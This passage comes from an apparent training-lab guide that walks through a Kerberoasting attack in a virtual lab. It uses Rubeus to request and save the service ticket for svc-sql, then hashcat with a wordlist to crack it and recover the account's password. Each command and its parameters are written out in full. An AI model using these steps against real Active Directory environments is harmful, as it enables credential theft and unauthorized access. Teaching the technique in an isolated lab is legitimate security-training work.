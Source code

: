 1. [] Change the current directory by typing `cd \Tools\Ghostpack` and hit **Enter**.

1. [] Execute the following command `.\Rubeus.exe kerberoast /outfile:svc-sql.ticket`.

    >[!knowledge] This will request for a ticket for all enabled user accounts with a servicePrincipalName. In our case, it will only be **svc-sql**.

At this point we have the ticket saved locally **C:\Tools\Ghostpack\svc-sql.ticket**. Now we need to roast it 🔥

### Task 3 - Roast the ticket

In our case we will perform a dictionary attack against the ticket. We don't have the performance in our lab to use GPU and try a full-on rainbow attack on the ticket.

1. [] You are still on **@lab.VirtualMachine(CLI01).SelectLink**. If you don't have a **Windows Terminal** already open, then right click on the Start menu ![image](.\IMG\11menu.png) and click on **Windows Terminal (Admin)**.

1. [] Change the current directory by typing `cd \Tools\hashcat` and hit **Enter**.

1. [] Execute the following command `.\hashcat32.exe -a 0 -m 13100 C:\Tools\Ghostpack\svc-sql.ticket passwords.lst -o svc-sql.txt -O`
    Here are some details about the parameters:
    - **-a 0** is for dictionary attack, on our case the dictionary is the file **passwords.lst**
    - **-m 13100** is to tell hashcat that we are doing a TGS Kerberos ticket, in our case saved in this location  **C:\Tools\Ghostpack\svc-sql.ticket**
    - **-o svc-sql.txt** will save the result with the actual password in a local txt file
    - **-O** is to run hashcat is optimized kernel mode as we don't have a lot of resources on our virtual machine

    ![image](.\IMG\HASHCATOUTPUT.png)

1. [] Open a **File Explorer** window and navigate to `C:\Tools\hashcat` and open the file **svc-sql.txt** with **Notepad**.
